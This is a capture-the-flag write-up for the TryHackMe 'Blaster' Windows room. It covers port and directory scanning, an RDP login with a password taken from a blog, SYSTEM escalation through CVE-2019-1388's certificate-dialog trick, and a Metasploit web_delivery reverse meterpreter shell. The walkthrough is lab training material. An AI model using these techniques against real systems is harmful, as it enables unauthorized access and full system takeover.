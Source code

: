 ```yaml
---
layout: post
title: "THM - Blaster"
date: 2022-02-03
categories: [Tryhackme, Windows]
tags: [retro, windows, redux, privesc]
image: ../../assets/img/posts/Blaster/blaster.jpeg 

---
```


## Description

A blast from the past!

|**Room**|Retro|
|:---:|:---:|
|**OS**|Windows|
|**Difficulty**|Easy|
|**Room Link**| https://tryhackme.com/room/blaster|
|**Creator**|[DarkStar7471](https://twitter.com/darkstar7471)|

---

Deploy the machine and quickly scan the ports with rustscan,

```bash
rustscan -a 10.10.41.77
```
![rustscan](../../assets/img/posts/Blaster/rustscan.png)

we got 2 open ports. Let's scan them in detail with nmap.

```bash
nmap -sV -sC -p80,3389 10.10.41.77 -oN nmap.txt
```
![nmap](../../assets/img/posts/Blaster/nmap.png)

Scan results describes that port 80 Microsoft IIS server and port 3389 is running rdp server. Name of the machine is RetroWeb. Let's enumerate port 80. 

Visit http://10.10.41.77/,
![webpage1](../../assets/img/posts/Blaster/webpage1.png)

We got the welcome page of Microsoft IIS Server (default page).

From here, we can actually brute force the directories,

```bash
dirsearch -u http://10.10.41.77 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -i 200,301 -o dirsearch.txt 2>/dev/null
```
![dirsearch](../../assets/img/posts/Blaster/dirsearch.png)

dirsearch found the hidden directory named **/retro**. Let's enumerate it.

Visit http://10.10.41.77/retro/,
![webpage2](../../assets/img/posts/Blaster/webpage2.png)

By looking at this, I get the idea that this is kinda a blog website on retro games. There is a name Wade (might be username).

Looking around this website and I got suspicious of this blog, 
![webpage3](../../assets/img/posts/Blaster/webpage3.png)

So I followed this blog and landed on this page,
![webpage4](../../assets/img/posts/Blaster/webpage4.png)

Author of this blog is also the Wade then it might can be a password.

Since we know that rdp server is running then we can use `remmina` to connect to machine,
![rdp](../../assets/img/posts/Blaster/rdp.png)

There we got interface,
![rdp2](../../assets/img/posts/Blaster/rdp2.png)

and also our user flag.

There is hhupd.exe file, so I searched it on google,

> CVE-2019-1388 : An elevation of privilege vulnerability exists in the Windows Certificate Dialog when it does not properly enforce user privileges, aka 'Windows Certificate Dialog Elevation of Privilege Vulnerability'.

The POC of this vulnerability can be found on [Windows UAC Privilege Escalation CVE-2019-1388](https://www.programmersought.com/article/13092509797/).

Run hhupd.exe as administrator,
![rdp3](../../assets/img/posts/Blaster/rdp3.png)

when we try to enter the password which we don't know, then it will throw us an error. But actually, we can see "Show more details" button just before the password area. Let's click on that,

![rdp4](../../assets/img/posts/Blaster/rdp4.png)

it shows the program location and "show information about the publisher's certificate". Follow the link by clicking on it.

It opens up a dialogue box showing the information about certificate issuer,
![rdp5](../../assets/img/posts/Blaster/rdp5.png)

There is an "Issued By" text so I followed this link.

It opens up the Internet Explorer,
![rdp6](../../assets/img/posts/Blaster/rdp6.png)

but the page can't be loaded because this machine is not connected to internet.

We can save this webpage in "C:\Windows\System32\",
![rdp7](../../assets/img/posts/Blaster/rdp7.png)

now before saving it, type *.* to save it and there after scrolling down, we can see the cmd executable. Let's run this executable.

Command prompt opens up as System32,
![rdp8](../../assets/img/posts/Blaster/rdp8.png)

issuing `whoami` command reveals us that we are **nt authority\system** user means we are administrator.

Navigating to C:\Users\Administrator\Desktop and listing directory content, 
![rdp9](../../assets/img/posts/Blaster/rdp9.png)

we can see the root flag.

## Metasploit Method

Boot up the metasploit using `msfconsole -q` and then we are using web_delivery module to exploit this vulnerability,

```bash
use exploit/multi/script/web_delivery
```
![metasploit](../../assets/img/posts/Blaster/metasploit.png)

setting `options`:
- `set lhost tun0`
- `set target 2` (PSH)
- `set payload windows/meterpreter/reverse_http`

Running this module in background using `run -j` (it will run the exploit in background and when it receives connection from remote machine, it will notify us to interact with that session),
![metasploit2](../../assets/img/posts/Blaster/metasploit2.png)

after running this module, we got the powershell command. Now, copy this command and paste this on remote machine command prompt.

When this pasted command gets executed on remote machine, our payload will get delivered,
![metasploit3](../../assets/img/posts/Blaster/metasploit3.png)

and we got a meterpreter session. 

Interact with session 1,
![metasploit4](../../assets/img/posts/Blaster/metasploit4.png)

issuing `getuid` command reveals that we are **NT AUTHORITY\SYSTEM** user.
